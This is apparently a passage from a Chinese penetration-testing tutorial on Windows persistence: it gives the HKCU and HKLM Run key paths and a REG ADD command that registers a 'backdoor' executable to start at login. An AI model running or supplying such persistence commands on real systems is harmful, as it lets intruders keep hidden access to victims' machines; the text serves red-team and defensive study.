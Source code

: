 ## 2.3. 注册表加载

注册表加载就是将木马添加到注册表中，让注册表进行加载。

### 2.3.1. 添加启动项

这里不同的类型的注册表路径是不同的，同时有当前用户的，也有直接是服务器的，当前用户的基本上你获取到用户权限就可以添加了，而且服务器也就是system权限，这个是需要提权的。

```
当前用户键值注册表路径:
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
服务器键值注册表路径（需要管理员权限）:
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 
```

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\1\3000.exe"
```

![image-20230817093454698](assets/image-20230817093454698.png)

### 2.3.2. 查看注册表

```
regedit ##查看注册表
```

![image-20230817093604350](assets/image-20230817093604350.png)
